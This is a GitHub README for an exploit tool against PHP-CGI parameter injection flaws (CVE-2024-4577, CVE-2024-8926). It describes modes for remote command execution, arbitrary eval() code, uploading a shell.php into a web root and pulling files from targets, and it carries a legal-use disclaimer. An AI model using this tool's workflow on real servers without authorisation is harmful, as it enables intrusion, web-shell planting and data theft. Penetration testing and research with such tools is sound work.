 # PHP-CGI Injector

English | [繁體中文](./README.zh-Hant.md)

🚀 **CVE-2024-4577 & CVE-2024-8926 Exploit Tool**

> An automated testing tool for **PHP-CGI parameter injection vulnerabilities**, supporting **CVE-2024-4577** and **CVE-2024-8926**. Capable of executing commands, uploading files, downloading files, etc.

---

## Introduction
This tool is designed to test **parameter injection vulnerabilities in PHP-CGI environments** and provides:
- ✅ Automated vulnerability scanning
- ✅ Multiple attack modes
- ✅ Support for `system()` command execution
- ✅ Support for arbitrary code execution via `eval()`
- ✅ File upload and download capabilities
- ✅ Automatic logging of executed commands (`--log`)
- ✅ Auto conversion of output encoding to prevent garbled text

---

## Disclaimer
**This tool is intended solely for legal testing and academic purposes. Unauthorized use on systems not permitted by the owner is prohibited!**
> **⚠️ Illegal use will be held accountable under law!**

This tool is exclusively for:
- 🔹 Enterprise penetration testing (Red Team)
- 🔹 CTF security research
- 🔹 Personal security learning

---

## Installation Dependencies
The tool relies on the following Python packages. Please install them first:
```bash
pip install -r requirements.txt
```
Or manually install:
```bash
pip install requests urllib3 chardet
```

---

## Usage Instructions
```bash
python exploit.py -u <target_url> [--timeout=sec] [--log]
```
Example:
```bash
python exploit.py -u http://example.com --timeout=30 --log
```

### Parameter Options
| Parameter | Description | Example |
|-----------|-------------|---------|
| `-u`      | Specify the target URL | `-u http://example.com` |
| `--timeout=sec` | Set request timeout (`1-120` seconds), `0` for infinite wait | `--timeout=30` |
| `--log`   | Enable automatic logging in Shell mode | `--log` |

---

## Operation Modes
Once the script identifies a vulnerability, it will display a menu:
```
[+] Vulnerable entry point found:: /php-cgi/php-cgi.exe (Vulnerability: CVE-2024-4577)

[*] Current target: http://example.com/ (Vulnerability: CVE-2024-4577)
Choose mode:
1) Shell Mode (Execute commands using system())
2) Custom PHP Mode (Execute arbitrary code using eval())
3) Upload File
4) Download File
5) Switch Attack Target
6) Exit Program
```

---

## Detailed Modes Explanation

### 1️⃣ Shell Mode
Execute **system commands**:
```shell
shell> whoami
```
📂 **Save output**
```shell
shell> whoami --save
```
```shell
shell> whoami --save C:\output\whoami.txt
```

---

### 2️⃣ Custom PHP Mode
Execute **custom PHP code**:
```php
phpinfo();
EOF
```
📂 **Save output**
```php
phpinfo();
EOF --save
```
```php
phpinfo();
EOF --save C:\output\info.html
```

---

### 3️⃣ Upload File
Local file path: `C:\test\shell.php`  
Target full path:
[*] Upload path set automatically to: `C:/xampp/htdocs/shell.php`

📂 **Manually specify the target path**
```plaintext
Target full path: C:\xampp\php\shell.php
```

---

### 4️⃣ Download File
Remote file path: `C:\xampp\htdocs\index.php`  
📂 **Files are saved in `download/`, and duplicates will be automatically numbered**  
```plaintext
[*] Downloaded to download/index.php
```

---

### 5️⃣ Switch Attack Target
Enter new target URL: `http://newtarget.com`  
🔹 **Will retest the vulnerability**

---

### 6️⃣ Exit Program
```plaintext
[*] Program ended
```

